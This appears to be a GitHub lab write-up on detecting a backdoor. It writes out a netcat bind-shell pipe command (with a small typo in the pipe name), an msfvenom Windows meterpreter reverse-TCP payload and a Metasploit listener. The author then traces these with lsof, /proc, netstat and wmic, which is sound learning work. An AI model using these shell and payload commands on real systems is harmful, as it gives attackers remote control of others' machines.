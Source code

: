 # Detecting and Analyzing a Backdoor

Firstly, I used mknod to create a named pipe (First In, First Out - FIFO) which is used for inter-process communication between processes.

After creating the named pipe, I created the backdoor. The way this worked is that:
```bash
mknod backpipe 2
/bin/bash 0<backpipe2 | nc -nlvp 2222 1>backpipe2
```
This command listens on port 2222 for incoming connections.
After creating the backdoor, I connected to the listening port of the backdoor on port 2222 to establish access.

Moving on to the second stage, I used lsof to list open files and processes. This tool helps detect all listening and established process connections.

Identifying the PID

In the output, I located the Process ID (PID) of the backdoor. The image below shows this process information, confirming that the backdoor is active.
![image](https://github.com/user-attachments/assets/d84c219a-a599-4a5f-ba8e-0455574d0dd1)

Inspecting the Process

Once I identified the PID, I navigated into its /proc directory to inspect its files and directories:
This revealed various files, including:
cwd (current working directory)
cmdline (command-line arguments used to start the process)
fd/ (file descriptors used by the process)
By analyzing these files, I gained insight into how the backdoor was executed and maintained.

Discovering Suspicious Executable

From the result of lsof, I found an interesting .exe file. To analyze its contents. This revealed that the netcat connection was being used to listen for connections through the backdoor.

Creating a Reverse Shell with Metasploit

To escalate access, I created a backdoor and a listener to establish a reverse TCP connection back to the attacking (Windows) machine. This allows remote access using Metasploit.

Steps to Set Up the Reverse Shell:

Generate a payload using msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > backdoor.exe
![image](https://github.com/user-attachments/assets/b124f241-a39e-4813-aa4a-312b261b8ebe)

Transfer the backdoor.exe file to the target system. For the .exe file to be accessible on Windows/WSL, I copied it into:

/mnt/c/tools/

Start the Metasploit framework and set up a listener:
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT 4444
exploit

Once executed on the target system, this provides remote meterpreter access to the compromised system.
Checking Network Connections
Since the malware is now up and running, I performed some basic network connection checks using:
netstat -naob
This command provides details on:
TCP/UDP connections
Port numbers
Process IDs (PIDs)
Connection status (Established or Listening)
![image](https://github.com/user-attachments/assets/7cfc225d-6f90-42e9-a7e3-f171e0c9f88e)
![image](https://github.com/user-attachments/assets/f73a450f-087a-4bae-904b-fa4dec67171e)

By analyzing this output, I was able to confirm the backdoor’s active connection and further validate its presence on the system.

Checking for Scheduled Tasks and Process Analysis

To investigate further, I checked for scheduled tasks associated with the attacker's process. This helps determine if the payload is set to execute repeatedly:
This command displays running processes related to the identified PID, revealing any persistent backdoor mechanisms.

Lastly, I ran the following command to examine process details:
wmic process get name, parentprocessid, processid
![image](https://github.com/user-attachments/assets/556fd8aa-4739-4fc9-9cd2-463aa65674f1)

This launched the .exe file and successfully identified the malware, confirming its execution path and parent process details.

